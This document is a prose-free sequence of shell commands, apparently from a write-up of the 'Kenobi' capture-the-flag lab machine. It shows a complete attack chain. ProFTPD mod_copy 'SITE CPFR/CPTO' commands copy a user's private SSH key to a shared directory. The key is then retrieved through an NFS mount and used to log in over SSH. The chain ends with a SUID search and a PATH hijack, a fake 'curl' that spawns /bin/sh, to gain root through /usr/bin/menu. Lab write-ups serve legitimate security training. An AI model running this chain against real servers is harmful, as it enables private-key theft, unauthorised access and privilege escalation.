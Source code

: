 
```shell
SITE CPFR /home/kenobi/.ssh/id_rsa
```

```shell
SITE CPTO /var/tmp/id_rsa
```

```
mkdir /mnt/kenobiNFS  
```

```
mount machine_ip:/var /mnt/kenobiNFS  
```

```
ls -la /mnt/kenobiNFS
```

```
cp /mnt/kenobiNFS/tmp/id_rsa .
```

```
cp /mnt/kenobiNFS/tmp/id_rsa .
```

```
ssh -i id_rsa kenobi@10.10.10.10
```

```
find / -perm -u=s -type f 2>/dev/null
```

```
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu
```